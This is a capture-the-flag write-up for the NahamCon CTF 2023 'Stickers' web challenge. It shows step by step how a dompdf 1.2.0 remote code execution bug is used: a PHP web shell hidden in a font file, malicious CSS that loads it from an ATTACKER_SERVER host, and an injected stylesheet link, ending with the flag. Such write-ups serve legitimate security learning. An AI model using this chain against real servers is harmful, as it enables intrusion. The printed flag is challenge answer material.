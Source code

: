 ```yaml
---
name: Stickers (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Stickers (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Stickers

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=247 "Nahamcon CTF 2023: Stickers (Web)")

## Description

> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
> Find the flag file in /flag.txt at the root of the filesystem.

## Solution

Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted `{{7 * 7}}` as the name, but it just rendered as text.

When we submit, the URL looks like: `http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1`

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version `þÿdompdf 1.2.0`.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation:
https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.

```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```

Add a shell at the bottom of the file.

```php
<?php system($_REQUEST["cmd"]); ?>
```

Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. `/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`.

```css
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}
```

Create a python web server and expose using ngrok.

```
sudo python -m http.server 80
ngrok http 80
```

Make a request containing the malicious stylesheet.

```bash
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
```

Calculate the MD5 of the malicious PHP URL.

```bash
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
```

Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call `cat /flag.txt` and receive the flag.

Flag: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`
